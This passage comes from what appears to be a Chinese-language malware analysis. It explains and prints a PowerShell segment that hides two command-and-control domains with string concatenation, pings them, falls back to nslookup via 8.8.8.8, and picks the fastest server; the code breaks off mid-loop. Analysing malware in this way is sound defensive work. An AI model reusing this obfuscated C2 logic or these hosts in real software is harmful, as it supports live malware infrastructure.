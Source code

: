 31-106 行通过 ping 检查可以连接的 C2 服务器：

- 域名包括 `auth[.]to0ls[.]com` 和 `mail[.]to0ls[.]com`，使用字符串拼接混淆
- 如果 ping 失败，尝试使用 nslookup 和 DNS 服务器 `8.8.8.8` 解析域名
- 对可用的服务器进行多次 ping 测试，计算平均响应时间，最终选择一个响应最快的服务器

```powershell linenums="31"
$pin = new-object system.net.networkinformation.ping
$se=@((('au'+'th.'+'to0l'+'s.c'+'om')),(('mail.to'+'0l'+'s.co'+'m')))
$avgs = @()
$nic = ('au'+'th.'+'to0l'+'s.c'+'om')
$tmp = 0
$dtflag = $True
$tmp = ($pin.send($se[0])).RoundtripTime
if ($tmp -ne 0){
    $dtflag = $True
}else{
    $tmp = ($pin.send($se[1])).RoundtripTime
    if ($tmp -ne 0){
        $dtflag = $False
        $nic = $se[1]
    }else{
        for($i=0;$i -le 1;$i++){
            [string]$nslookup = &nslookup.exe $se[$i] 8.8.8.8
            $nslookup = $nslookup.replace("8.8.8.8","xxxxxxxx")
            $pattern="(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)\.(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)\.(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)\.(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)"
            if($nslookup -match $pattern){
                $se[$i] = $matches[0]
            }else{
                $se[$i] = "8.8.8.8"
            }
        }
        if(!($se[0].contains("8.8.8.8")) -and !($se[1].contains("8.8.8.8"))){
            if($se[0].contains($se[1])){
                $nic = $se[0]
                $dtflag = $False
            }else{
                $dtflag = $True
            }
        }elseif($se[0].contains("8.8.8.8")){
            $nic = $se[1]
            $dtflag = $False
        }else{
            $nic = $se[0]
            $dtflag = $False
        }
    }
}
if($dtflag){
    for($i=0;$i -le 1;$i++){
        $sum = 0
        $count = 0
        for($j=1;$j -le 4;$j++){
            $tmp = ($pin.send($se[$i])).RoundtripTime
            if ($tmp -ne 0){
                $count += 1
            }
            $sum += $tmp
        }
        if ($count -ne 0){
            $avgs += $sum/$count
        }else{
            $avgs += 0
        }
```